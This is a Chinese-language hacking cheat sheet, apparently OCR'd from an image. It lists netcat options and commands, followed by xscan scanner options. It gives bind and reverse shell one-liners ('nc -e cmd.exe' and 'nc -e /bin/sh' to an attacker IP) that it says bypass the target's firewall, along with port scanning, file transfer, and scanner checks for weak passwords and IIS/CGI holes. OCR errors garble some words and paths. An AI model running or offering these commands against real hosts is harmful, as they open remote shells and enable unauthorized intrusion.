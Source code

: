 　　-i secs延时的间隔
　　-l 监听模式，用于入站连接
　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C
　　-n IP地址，不能用域名
　　-o film记录16进制的传输
　　-p[空格]端口 本地端口号
　　-r 随机本地及远程端口
　　-t 使用Telnet交互方式
　　-u UDP模式
　　-v 详细输出，用-vv将更详细
　　-w数字 timeout延时间隔
　　-z 将输入，输出关掉（用于扫锚时）
　　基本用法：
　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
　　nc -l -p 80 开启本机的TCP 80端口并监听
　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
　　高级用法：
　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
　　本机上用：nc -l -p 本机端口
　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
　　备 注：
　　| 管道命令
　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
　　八：
　　扫描工具：xscan.exe
　　基本格式
　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
　　检测项目
　　-active 检测主机是否存活
　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
　　-port 检测常用服务的端口状态
　　-ftp 检测FTP弱口令
　　-pub 检测FTP服务匿名用户写权限
　　-pop3 检测POP3-Server弱口令
　　-smtp 检测SMTP-Server漏洞
　　-sql 检测SQL-Server弱口令
　　-smb 检测NT-Server弱口令
　　-iis 检测IIS编码/解码漏洞
　　-cgi 检测CGI漏洞
　　-nasl 加载Nessus攻击脚本
　　-all 检测以上所有项目
　　其它选项
　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
　　-l 显示所有网络适配器
　　-v 显示详细扫描进度
　　-p 跳过没有响应的主机
　　-o 跳过没有检测到开放端口的主机
　　-t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
　　-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)